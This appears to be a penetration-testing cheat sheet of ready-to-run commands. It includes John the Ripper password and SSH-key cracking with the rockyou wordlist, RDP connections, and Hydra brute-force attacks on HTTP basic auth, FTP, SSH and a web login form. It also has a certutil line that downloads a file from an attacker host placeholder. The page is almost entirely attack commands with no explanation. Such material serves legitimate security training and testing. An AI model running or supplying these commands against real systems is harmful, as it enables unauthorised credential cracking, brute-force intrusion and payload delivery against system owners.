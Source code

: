 ```
sudo john --wordlist=/usr/share/wordlists/rockyou.txt hash
```
## ssh
```
/usr/share/john/ssh2john.py id_rsa > hash
```
# remote desktop
```
rdesktop [RHOST]
```

```
xfreerdp /u:user /p:pass /v:[RHOST]
```

```
xfreerdp /d:domain /u:user /p:pass /v:[RHOST]
```

```
remmina
```
# cmd.exe
```
certutil -urlcache -f http://[LHOST]/file file
```

# hydra

## basic auth
```
hydra -l user -P /usr/share/wordlists/rockyou.txt -f [RHOST] http-get -t 16
```
## ftp
```
hydra -l user -P /usr/share/wordlists/rockyou.txt [RHOST] -t 4 ftp -V
```
## ssh
```
hydra -l user -P /usr/share/wordlists/rockyou.txt [RHOST] -t 4 ssh -V
```

```
hydra -l user -P /usr/share/wordlists/rockyou.txt ssh://<RSHOST>:<RPORT> -t 4 -V
```

## http-post-form
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt [RHOST] http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:F=Username or password invalid" -V
```
